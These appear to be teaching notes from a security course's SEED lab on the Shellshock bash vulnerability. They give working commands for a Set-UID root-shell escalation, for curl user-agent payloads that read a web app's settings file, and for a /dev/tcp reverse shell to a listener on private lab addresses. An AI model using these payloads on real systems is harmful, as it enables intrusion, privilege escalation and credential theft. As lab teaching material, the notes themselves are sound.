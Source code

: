 # Shellshock Attack

Some snippets below:

## Shell Functions

```bash
foo() { echo "Inside function"; }
declare -f foo # show the function def
foo
unset -f foo
declare -f foo # show the function def
```

```bash
foo() { echo "hello world"; }
declare -f foo # show the function def
foo
export -f foo
bash
foo
```

```bash
foo='() { echo "hello world"; }'
echo $foo
declare -f foo # show the function def
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## The Shellshock Vuln.

```bash
foo='() { echo "hello world"; }; echo "extra";'
echo $foo
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## Shellshock Attack on Set-UID Programs

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh # link sh to the vuln. version of bash
cat vul.c
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo "hello world"; }; echo /bin/sh'
./vul # get the root shell!
sudo ln -sf /bin/dash /bin/sh # reset sh
```

## Shellshock Attacks on CGI Programs

### Pro Tip

You will likely need code/CGI scripts from the course code repo.
You can easily fetch code from the website using `wget`.

```bash
# Use wget to get a file from our course repo & save to the default folder for the Apache webserver
sudo wget -O /usr/lib/cgi-bin/myenv.cgi https://raw.githubusercontent.com/traviswpeters/csci476-code/master/03_shellshock/env.cgi
sudo chmod 755 /usr/lib/cgi-bin/myenv.cgi # make it executable
ls -al /usr/lib/cgi-bin/ # verify permissions
cat /usr/lib/cgi-bin/myenv.cgi # verify file content
```

##### Common Gotchas

A couple of issues that have come up regarding students trying to invoke CGI scripts:

0. You aren't using the official SEED VM (you should be!) ;-)
1. File not in `/usr/lib/cgi-bin/`
2. Request made to a file that does not exist in `/usr/lib/cgi-bin/`
3. File is not executable
4. File is empty
5. If all else fails, try rebooting your VM.
   Mucking around with your VM in the previous lab(s) may have broken something.


### Setup

Put this script (`test.cgi`) in `/usr/bin/cgi-bin/`

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

### Using `curl`

Use `curl` to interact with the CGI script

```bash
curl http://10.0.2.69/cgi-bin/test.cgi
```

### User Data in CGI Scripts

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "*** Environment Variables ***"
strings /proc/$$/environ
```

```bash
curl -v http://10.0.2.69/cgi-bin/test.cgi
```

Use `curl -A ...` to change the user-agent field.

```bash
curl -A "test" -v http://10.0.2.69/cgi-bin/test.cgi
```

### Launching the attack

```bash
curl -A "() { echo hello; };
         echo Content-type: text/plain;
         echo; /bin/ls -l"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
curl -A "() { echo hello; };
         echo Content-type: text/plain;
         echo;
         /bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
         http://10.0.2.69/cgi-bin/test.cgi
```

### Reverse Shell

```bash
nc -lv 9090
ifconfig
```

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1
```

```bash
curl -A "() { echo hello; };
         echo Content-type: text/plain;
         echo;
         echo;
         /bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
nc -lv 9090
id
```

##### From class:

Follow instructions in Appendices in the SEED setup manual (lab00) to see how to clone your existing SEED VM and properly configure the NAT Network.

Step 1:
```bash
# start netcat server on "attacker" machine
seed@VM(10.0.2.15):~$ nc -lv 9090
Listening on [0.0.0.0] (family 0, port 9090)
```

Step 2:
```bash
# experiment with ideal payload on "victim" machine (i.e., a remote server)
seed@VM(10.0.2.7):~$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```

At this point, you have a reverse shell setup!
You can now specify commands from the "attacker" VM,
which are sent over the network connection and run on the victim's machine;
the results are also sent back over the network connection to the "attacker" VM.
In this way, you have shell access to the victim VM!

The question then is: how do you get the victim to execute your payload?!

**NOTE:** The IP addresses are specific to my configuration.
You should use `ifconfig` to verify the IP addresses on your VMs.
